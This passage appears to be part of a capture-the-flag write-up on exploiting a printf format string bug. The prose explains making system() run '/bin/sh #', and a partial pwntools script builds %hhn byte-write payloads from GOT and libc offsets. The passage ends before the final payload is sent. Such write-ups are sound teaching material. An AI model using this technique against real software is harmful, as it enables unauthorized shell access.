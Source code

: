 <img width="1573" height="208" alt="image" src="https://github.com/user-attachments/assets/35914f47-a7ad-4860-9689-a88da6853659" />

There was one final problem though. If `/bin/sh\x00` was the first thing in the payload, `printf` would stop there. At the first nullbyte. And the rest of the format string wouldn't be processed. So the rest of the payload wouldn't run. But at the same time, if the nullbyte isn't there, then `system` would receive `/bin/sh%248c%...` as parameter, total gibberish. The solution? Use a hashtag to comment out the rest of the string! So `/bin/sh #` instead.

<img width="1573" height="208" alt="image" src="https://github.com/user-attachments/assets/ec6279a9-fd5d-468f-a843-66002004d185" />

And that solves it! Sometimes it crashes with SIGSEGV, I don't really know what happens, I haven't debugged it yet to see what's going on. But in any case, here's the final script and solution:

```python
from pwn import *
import time

OFFSET_WRITABLE = 16 # how many quadwords from the first stack argument of the vulnerable printf until the buffer where the username is being stored, ill use this as the first argument for fmtstr_payload
OFFSET_STRCPY = 0x2bfb # offset from main_connected to strcpy's entry at the global offset table
OFFSET_TO_SYSTEM = 0x616f0 # offset from strcpy in libc to system in libc

# when we get to the printf function that has the vulnerability
# the stack looks like this: 8 bytes_of_garbage, address_of_string, rbp_of_display_info, ret_address_of_display_info
# ret_address_of_display_info is equal to main_connected+0x6c

BIN_NAME = "./main"

elf = context.binary = ELF(BIN_NAME)

def byte_write(target_addr, value_byte, arg_index):
    # arg_index is the %N$ index that corresponds to the Nth quadword where the target_addr will be, starting at 16
    v = value_byte & 0xff
    if v == 0:
        fmt = f"%{arg_index}$hhn".encode()        # write 0 if printed count is already 0
    else:
        fmt = f"%{v}c%{arg_index}$hhn".encode()   # print v chars, then write low byte

    pad = b"A" * ((8 - (len(fmt) % 8))) # align to 8 bytes
    payload = fmt + pad + p64(target_addr)

    print("payload:", repr(payload))  # debuggin this shit
    return payload

def send_payload_with_input(payload): # this is so I don't have to repeat sendline('2') sendline('3') after every single input...
    proc.sendline(b'2')
    proc.sendline(payload)
    time.sleep(0.05)
    proc.sendline(b'3')

def start():
    if args.GDB:
        return gdb.debug(BIN_NAME)
    if args.REMOTE:
        return remote('<REMOTE>',42069)
    else:
        return process(BIN_NAME)
        
proc = start()

```